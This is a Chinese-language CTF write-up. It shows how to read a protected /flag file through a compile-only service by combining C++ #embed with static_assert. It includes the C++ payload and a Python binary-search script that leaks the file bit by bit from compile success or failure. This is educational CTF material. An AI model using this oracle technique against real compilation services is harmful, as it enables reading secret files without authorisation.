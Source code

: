 有过上次的经验，加上题目提示这是个很新的特性，很容易想到需要用到 `#embed` 预处理指令（推荐阅读：[finally. #embed](https://thephd.dev/finally-embed-in-c23)），它可以在编译期读取一个文件的数据，并把数据填充到数组的初始化器当中。

```c++
unsigned char flag[] = {
#embed "/flag"
};
```

但是看不到编译器输出，应该怎么拿到信息呢？仔细阅读题目代码发现，除了编译成功还是失败以外没法获得任何信息，但如果能让程序根据每个字节的内容的不同来编译成功或失败，就可以写一个二分查找通过每次 1bit 的信息一次次泄露出 flag 的内容。

于是，不难想到使用 `static_assert`，这样就能理解为什么本题是 C++ 而不是C语言了：因为接下来会用到 `constexpr` 编译期计算。为了让编译成功，需要给代码补上一个空的 main 函数：

```c++
constexpr unsigned char flag[] = {
#embed "/flag"
};
static_assert(flag[0] < 128);
int main(void){}
```

这样当第一个字节小于 128 时，编译就会成功，反之失败。接下来写一个二分查找即可获得 flag：

```python
def bisect(file, offset):
    low = 0
    high = 256

    while high - low > 1:
        guess = (high + low) // 2
        code = f"""\
constexpr unsigned char flag[] = {{
#embed "/flag"
}};
static_assert(flag[{offset}] < {guess});
int main(void){{}}
END
"""
        print(f"flag[{offset}] < {guess}")
        file.write(code.encode())
        file.flush()
        result = file.readline()
        print(result.strip().decode())
        if b"Success" in result:
            high = guess
        else:
            file.readline()
            low = guess

    return low

flag = ""
for i in range(999):
    print(f"guessing offset {i}")
    char = chr(bisect(file, i))
    flag += char
    print(char)
    if char == "}":
        break
print(flag)
```
